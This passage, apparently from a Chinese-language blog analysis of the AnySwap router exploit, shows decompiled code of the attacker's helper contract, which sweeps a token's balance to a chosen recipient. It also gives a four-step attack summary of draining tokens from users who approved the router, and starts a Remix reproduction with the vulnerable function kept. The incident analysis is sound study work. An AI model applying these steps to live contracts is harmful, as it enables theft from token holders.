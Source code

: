 ```python
          if not ext_call.success:
              revert with ext_call.return_data[0 len return_data.size]
          require return_data.size >= 32
  else:
      require ext_code.size(_param1)
      static call _param1.balanceOf(address owner) with:
              gas gas_remaining wei
             args this.address
      if not ext_call.success:
          revert with ext_call.return_data[0 len return_data.size]
      require return_data.size >= 32
      if ext_call.return_data[0]:
          require ext_code.size(_param1)
          if _param3:
              call _param1.transfer(address to, uint256 value) with:
                   gas gas_remaining wei
                  args addr(_param3), ext_call.return_data[0]
          else:
              call _param1.transfer(address to, uint256 value) with:
                   gas gas_remaining wei
                  args caller, ext_call.return_data[0]
          if not ext_call.success:
              revert with ext_call.return_data[0 len return_data.size]
          require return_data.size >= 32
```

ME3合约就比ME2合约逻辑简单多了，这里0x0ad5c04f函数和0x5786c926函数在之前的ME2合约分析中提到过，0x0ad5c04f函数用于设定underlying的地址，0x5786c926函数用于提供一个调用合约函数的通用接口。

0xbebbf4d0是depositVault(uint256,address)函数的签名，返回true。

设置burn函数和depositVault函数是因为在后续的利用过程中会调用这两个函数，检查其返回值（调用成功返回true）。

0x42721168是提款函数，param1为token的地址，param2为amount，param3为收款地址。

如果param2大于0的话，则转款数量为param2，否则就会通过balanceOf来查询当前余额为多少，全部转移。

如果param3不为0则向param3转款，否则收款地址为msg.sender

### 攻击流程总结

第一步：攻击者选择要攻击的token的地址。

第二步：查询将目标token委托给router合约的用户。

第三步：通过漏洞函数，将受害用户的token转移到伪造token的账户名下。

第四部：将token转移到攻击者账户，返回第一步，寻找新的token和受害者。

## 攻击复现

这里我本人使用的是remix来搭建复现环境，AnySwapRouter合约代码量过大，屡屡编译卡死，所以这边精简了一下，仅仅保留了漏洞函数。精简后的代码：

```solidity
// SPDX-License-Identifier: GPL-3.0-or-later

pragma solidity >=0.8.2;


// helper methods for interacting with ERC20 tokens and sending NATIVE that do not consistently return true/false



interface AnyswapV1ERC20 {
    function mint(address to, uint256 amount) external returns (bool);
    function burn(address from, uint256 amount) external returns (bool);
    function changeVault(address newVault) external returns (bool);
```